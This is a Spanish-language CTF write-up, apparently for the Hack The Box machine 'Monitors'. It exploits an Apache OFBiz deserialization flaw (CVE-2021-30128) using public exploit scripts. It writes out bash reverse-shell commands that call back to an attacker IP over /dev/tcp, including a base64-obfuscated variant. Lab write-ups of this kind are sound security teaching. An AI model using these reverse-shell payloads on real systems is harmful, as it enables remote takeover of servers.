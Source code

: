 ## <u>CVE-2021-30128</u> - Tamos dentro del container [📌](#cve-2021-30128) {#cve-2021-30128}

Hay poca info de este CVE y las descripciones no ayudan, en la mayoría de casos encontramos:

👎 ***Apache OFBiz has unsafe deserialization prior to 17.12.07 versión***

Pues acá volvemos a encontrarnos con el análisis a los 3 CVEs, entre ellos el que vamos a usar ahora:

* [**Apache OFBiz** Analysis (CVE-2021-26295, CVE-2021-29200, CVE-2021-30128)](https://ridgesecurity.ai/blog/apache-ofbiz-three-deserialization-vulnerabilities-analysis-cve-2021-26295-cve-2021-29200-cve-2021-30128/).

En ella nos explica la vuln:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/monitors/341google_analysisCVEs_30128.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Perfectooooo, pues buscando exploits relacionados caemos en 2:

* [https://github.com/r0ckysec/CVE-2021-30128](https://github.com/r0ckysec/CVE-2021-30128).
* [https://github.com/LioTree/CVE-2021-30128-EXP](https://github.com/LioTree/CVE-2021-30128-EXP).

El uso de los dos es muy sencillo, pasamos el objetivo y el comando que queremos ejecutar...

Probando con los dos script cosas como:

```bash
❱ python3 cve-2021-30128_exp.py https://localhost:8443 'bash -i >& /dev/tcp/10.10.14.146/4450 0>&1'
❱ python3 exp.py -u https://localhost:8443 -c 'bash -i >& /dev/tcp/10.10.14.146/4450 0>&1'
```

Incluso intentar jugar con `nc` o `ping`, pero nada, no conseguimos respuesta alguna...

Después de pensar mucho, (como una prueba de las que siempre hacemos) recordé lo usado en el script anterior, el tomar la cadena y pasarla a **base64** para después juntarla al formato raro.

Pues 🕺🏾

```bash
❱ echo "bash -i >& /dev/tcp/10.10.14.146/4450 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNDYvNDQ1MCAwPiYxCg==
```

... <u>AAAAAAAAAAAAaAAAAAAaa</u>


* [https://github.com/LioTree/CVE-2021-30128-EXP](https://github.com/LioTree/CVE-2021-30128-EXP).

---

```bash
❱ python3 exp.py -u https://localhost:8443 -c 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNDYvNDQ1MCAwPiYxCg==}|{base64,-d}|{bash,-i}'
```

![341bash_repo_liotree_30128_revsh](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/monitors/341bash_repo_liotree_30128_revsh.png)

... <u>AAAAAAAAAaAAAaaAaaaaA</u>
